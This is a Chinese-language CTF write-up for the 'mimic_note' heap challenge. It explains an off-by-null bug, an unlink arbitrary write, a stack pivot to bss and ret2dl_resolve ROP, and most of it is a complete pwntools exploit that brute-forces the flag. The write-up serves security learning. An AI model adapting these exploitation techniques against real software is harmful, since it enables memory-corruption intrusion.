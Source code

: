 [中文](./README_zh.md) [English](./README.md)

[附件](./attachment.zip)

题目给了两个二进制文件，一个是32位的，一个是64位的

主要思想是，给定相同的输入，判断32位和64位程序的输入是否相同，假如不相同就直接退出

题目是一个比较简单的堆题

我们首先来看下main函数

![](img/t1.png)

可以看到有4个功能

1. new
2. delete
3. show
4. edit

其中edit存在一个off by null的漏洞，利用这个漏洞可以unlink，获取任意写

在任意写之后，可以利用一个gadget，将栈转移到bss段上面，进行ROP，这个时候利用ret2dl_resolve就可以打开flag，写到某个note那里，那个note提前设好一个值，假如不相当的话，就会输出what are you trying to do?

下面是exp

这个是预期解，不过因为mimic写得不是很好，有挺多非预期的........

```
from pwn import *
import roputils 


def brute_flag(idx,v):
    debug=1

    #context.log_level='debug'

    rop=roputils.ROP('./mimic_note_32')

    if debug:
        p=process('./mimic')
        #p=process('./mimic_note_32')
        #p=process('./mimic_note_64')
        #gdb.attach(p)
    else:
        #p=remote('127.0.0.1',9999)
        pass

    def ru(x):
        return p.recvuntil(x)

    def se(x):
        p.send(x)

    def sl(x):
        p.sendline(x)


    def new(sz):
        sl('1')
        ru('size?')
        sl(str(sz))
        ru(">> ")

    def delete(idx):
        sl('2')
        ru('index ?')
        sl(str(idx))
        ru(">> ")

    def show(idx):
        sl('3')
        ru('index ?')
        sl(str(idx))

    def edit(idx,content):
        sl('4')
        ru('index ?')
        sl(str(idx))
        ru('content?\n')
        se(content)
        ru(">> ")

    #unlink attack x86

    new(0x68)
    new(0x68)
    new(0x94)
    new(0xf8)


    fake_chunk = p32(0)+p32(0x91)+p32(0x804a070-0xc)+p32(0x804a070-0x8)
    fake_chunk = fake_chunk.ljust(0x90,'\0')

    edit(2,fake_chunk+p32(0x90))

    delete(3)

    #ret2dlresolve and blind injection

    new(0x200)

    bss = 0x0804a500

    edit(2,p32(0x100)+p32(0x804A014)+p32(0x98)+p32(bss+0x300)+p32(0x94)+p32(bss)+p32(0x200))
    edit(1,p32(0x80489FA))

    payload = p32(bss-0x100)+rop.dl_resolve_call(bss+0x60, bss+0x180,0)
    payload += p32(0x8048460)+p32(0x80489F9)+p32(3)+p32(bss+0x300-idx)+p32(idx+1)
    payload += p32(0x080489FB)+p32(bss-0x100)
    payload += p32(0x804893C)

    payload = payload.ljust(0x60,'\x00')
    payload += rop.dl_resolve_data(bss+0x60, 'open')
    payload = payload.ljust(0x180,'\x00')
    payload += 'flag'

    edit(3,payload)

    edit(2,v+'\0')


    sl('2\x00'+'a'*6+p32(0x80488DE))
    ru('index ?\n')
    sl('3\x00')
    ru('>> ')

    show(2)

    ru('\n')
    data = ru('\n') 

    p.close()

    if len(data)>5:
        return False
    return True


charset ='{}_'+ string.ascii_letters + string.digits + string.punctuation

flag = ''
for i in range(40):
    for q in charset:
        if brute_flag(i,q):
            flag+=q
            print(flag)
            if q == '}':
                exit(0)
            break
```
